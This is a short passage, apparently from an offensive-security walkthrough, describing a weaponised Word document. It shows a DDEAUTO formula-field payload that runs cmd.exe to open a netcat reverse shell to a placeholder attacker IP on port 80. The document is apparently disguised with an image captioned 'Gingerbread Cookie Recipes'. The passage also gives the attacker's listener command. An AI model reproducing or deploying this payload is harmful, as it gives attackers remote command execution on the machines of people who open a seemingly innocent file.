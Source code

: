 This was the final payload created, and inserted as a formula field code: 

```sh
DDEAUTO c:\\windows\\system32\\cmd.exe "/c nc -e c:\windows\system32\cmd.exe [attacker-ip] 80"
```

![Gingerbread Cookie Recipes](./images/docx-payload.png)

We create a remote listener on port 80 from the [attacker-ip]:

```sh
$ nc -nvvvlp 80
```

